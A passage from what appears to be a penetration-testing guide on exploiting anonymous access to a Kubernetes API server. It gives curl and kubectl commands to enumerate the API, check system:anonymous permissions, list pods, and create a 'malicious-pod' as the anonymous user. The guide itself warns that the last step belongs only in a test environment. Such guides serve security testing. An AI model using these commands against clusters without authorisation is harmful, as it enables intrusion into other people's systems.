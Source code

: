**Step 3: Enumerate available API endpoints anonymously using `curl`.**

```bash
API_SERVER="https://<your_api_server_address>:6443"
curl -X GET "$API_SERVER/api/v1" -k
```

**Explanation:** This command lists available API groups and versions.  The `-k` option disables SSL certificate verification, which is often needed when working with self-signed certificates in Kubernetes.  We're specifically targeting the `/api/v1` endpoint, which provides information about core Kubernetes resources.

**Expected Output:** A JSON response listing available API groups and versions.  If this is successful without authentication, it confirms the authentication bypass vulnerability.

**Why:** This step confirms if the anonymous user can access sensitive information about the Kubernetes cluster.

**Step 4: Check if the `system:anonymous` user has RBAC permissions.**

```bash
kubectl auth can-i get pods --as system:anonymous
```

**Explanation:** This command checks if the `system:anonymous` user is authorized to `get` pods.

**Expected Output:**
*   **If vulnerable:** `yes`
*   **If not vulnerable:** `no` or an error.

**Why:** This directly verifies if the `system:anonymous` user has been granted excessive permissions.

**Phase 2: Exploitation (Exploit identified vulnerability)**

**Step 5: List all pods using the `system:anonymous` user to confirm the exploit.**

```bash
kubectl get pods --as system:anonymous
```

**Explanation:** This attempts to list all pods as the `system:anonymous` user, demonstrating the ability to perform actions without proper authentication.

**Expected Output:**  A listing of all pods in the default namespace (or the namespace to which `system:anonymous` has access) if the bypass is successful.

**Why:** This confirms the ability to interact with the Kubernetes API server without proper authentication.

**Step 6: Attempt to create a new pod as `system:anonymous` user (HIGHLY DANGEROUS - ONLY PERFORM IN TEST ENVIRONMENT).**

```bash
cat <<EOF | kubectl create -f - --as system:anonymous
apiVersion: v1
kind: Pod
metadata:
  name: malicious-pod
spec:
  containers:
  - name: malicious-container
    image: alpine:latest
    command: ["/bin/sh", "-c", "while true; do echo 'Compromised!'; sleep 1; done"]
EOF
```

